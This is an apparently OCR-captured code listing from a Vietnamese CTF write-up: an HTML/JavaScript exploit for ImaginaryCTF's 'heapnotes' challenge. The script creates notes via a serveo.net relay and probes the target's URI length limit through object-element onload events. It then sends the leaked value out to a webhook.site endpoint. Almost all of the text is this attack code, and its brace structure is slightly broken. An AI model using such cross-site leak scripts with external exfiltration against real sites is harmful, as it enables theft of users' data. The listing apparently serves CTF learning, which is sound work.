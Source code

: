leak_len.html (để leak xem cần pad bao nhiêu nullbyte)

```html
<body></body>

<script>
    // const target = "https://localhost:13337/";
    const target = "https://heapnotes.chal.imaginaryctf.org";
    const charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@_-{}~().,:[]=/"
    let PAD = "";
    const URI_MAX_LENGTH = 65543-22;
    const the_URL = `/render/`
    const CSRF_ENDPOINT = `${target}/note/`;
    let BASE_LENGTH = 138;
    let load_ok = false;

    function get_key_num() {
        return (URI_MAX_LENGTH-the_URL.length-BASE_LENGTH)/2
    }

    async function createNote(c) {
        let content = PAD+c;
        let num = get_key_num();
        let noteid = await fetch(`https://feba087cf2d4863ced81fadb6f4e2da8.serveo.net/?content=${content}&number=${num}`);
        return await noteid.text();
    }

    async function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }


    async function exploit() {
        while (true) {
            let noteid = await createNote("A");
            console.log("noteid: " + noteid);
            const attack = CSRF_ENDPOINT + noteid;
            
            const ifrm = document.createElement("object");
            ifrm.data = attack;
            ifrm.onload=() => {
                load_ok = true;
            };

            document.body.appendChild(ifrm);

            await sleep(1000);

            if (!load_ok) {
                console.log(BASE_LENGTH);
                BASE_LENGTH += 2;
                fetch(`https://webhook.site/a4ac2867-f495-4664-8d5a-95159b933fec/?leak_len=${BASE_LENGTH}&notfinal`, {mode: "no-cors"});
            } else 
                fetch(`https://webhook.site/a4ac2867-f495-4664-8d5a-95159b933fec/?leak_len=${BASE_LENGTH}`, {mode: "no-cors"});
                break;
            }

            load_ok = false;
            document.body.removeChild(ifrm);
        }
```